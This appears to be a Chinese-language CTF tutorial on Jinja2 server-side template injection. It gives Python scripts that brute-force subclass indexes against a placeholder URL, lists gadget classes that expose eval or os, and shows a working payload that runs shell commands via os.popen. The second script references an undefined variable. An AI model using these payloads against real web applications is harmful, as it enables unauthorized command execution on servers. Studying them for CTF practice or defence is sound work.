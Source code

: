 

## RCE

### eval

首先，题目环境的不一样可能需要我们去找环境中含有内建函数 eval 的子类的索引号

这里脚本的原理就是通过遍历`__subclasses__`，然后再通过`.__init__.__globals__['__builtins__']`里面找是否存在eval函数字眼

```python
import requests

for i in range(500):
    url = "http://xxx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"

    res = requests.get(url=url)
    if 'eval' in res.text:
        print(i)
```

我们可以记下几个含有eval函数的类：

- warnings.catch_warnings
- WarningMessage
- codecs.IncrementalEncoder
- codecs.IncrementalDecoder
- codecs.StreamReaderWriter
- os._wrap_close
- reprlib.Repr
- weakref.finalize

示例payload

```
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

### os模块

Python的 os 模块中有system和popen这两个函数可用来执行命令，system没有回显，popen有回显

而找os模块的方法就和上面的差不多，可以编写脚本，遍历subclass的类里的`__init__.__globals__`

查找里面有没有导入os模块

```python
import requests

for i in range(500):
    url = "http://xxx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)
```
